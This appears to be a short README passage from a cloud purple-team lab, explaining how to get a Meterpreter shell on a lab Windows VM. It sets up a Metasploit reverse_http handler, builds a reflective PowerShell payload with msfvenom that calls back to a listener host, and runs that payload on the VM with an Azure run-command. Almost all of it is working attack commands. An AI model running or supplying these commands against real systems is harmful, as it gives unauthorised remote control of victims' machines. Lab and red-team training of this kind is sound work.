 The following commands can be used to load up the console with the appropriate
settings to recieve a shell:

```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_http
set LHOST 0.0.0.0
set LPORT 8000
exploit -j
```

To stage a powershell payload you can run:

```
msfvenom -p windows/meterpreter_reverse_http LHOST=1.2.3.4 LPORT=8000 -f psh-reflection -o /tmp/payload.ps1
```

If you wish to deliver the payload via the command line you can.
If you wish to deliver the payload via a file you can use the following command:

az vm run-command invoke -g PURPLECLOUD-DEVOPS1 -n Win10-Lars --command-id RunPowerShellScript --scripts “@payload.ps1"
